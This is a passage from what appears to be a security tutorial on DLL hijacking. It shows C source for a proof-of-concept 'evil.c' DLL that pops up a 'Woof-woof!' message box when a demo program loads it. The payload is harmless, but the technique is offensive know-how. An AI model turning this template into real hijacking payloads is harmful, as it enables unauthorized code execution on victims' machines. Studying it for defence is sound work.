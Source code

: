 ![run cartoon.exe](/assets/images/13/2021-10-12_13-35.png){:class="img-responsive"}    

And firstly, as a proof-of-concept, let's hijack my `pet.dll`.       
For this, create malicious `evil.c`:
```cpp
/*
evil.c - malicious DLL
DLL hijacking with exported functions example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Woof-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```
